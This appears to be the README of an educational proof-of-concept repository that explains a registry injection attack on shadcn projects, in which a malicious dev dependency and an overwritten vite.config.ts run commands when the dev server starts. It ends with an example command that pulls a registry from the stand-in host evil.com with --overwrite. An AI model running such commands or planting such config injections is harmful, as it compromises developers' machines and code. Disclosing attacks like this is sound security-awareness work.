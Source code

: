 # shadcn-registry-injection-demo

> **Proof of Concept:** Registry Injection Attack targeting the `shadcn` component ecosystem  
> **Educational Purpose Only**

---

## ⚠️ Disclaimer

This repository is created solely for educational and awareness purposes to demonstrate how a registry injection attack could compromise projects by injecting malicious code through dependencies and configuration files.  
**Do NOT use this code for any unauthorized, harmful, or illegal activities.**

---

## What is a Registry Injection Attack?

A Registry Injection Attack involves publishing or injecting malicious packages into public or private package registries to trick developers into installing compromised dependencies or components. Attackers exploit trust in package names, registries, or installation commands to gain unauthorized access, steal data, or execute malicious code silently.

---

## About This Demo and the shadcn Vulnerability

Shadcn registries let you install UI components quickly, but they can also include **dev dependencies**, **overwrite configuration files**, and **silently inject malicious code** into your project.

### How the Attack Works

- A `registry.json` file defines components, dependencies, and even files to overwrite.
- The attacker includes a malicious dev dependency, such as `vite-plugin-run`, which can execute arbitrary shell commands when your development server starts.
- The attacker overwrites critical config files like `vite.config.ts` to inject code that runs commands automatically — without any warning or prompt.
- For example, an attacker can run:

  ```bash
  npx shadcn@latest add https://evil.com/registry.json --overwrite
  ```
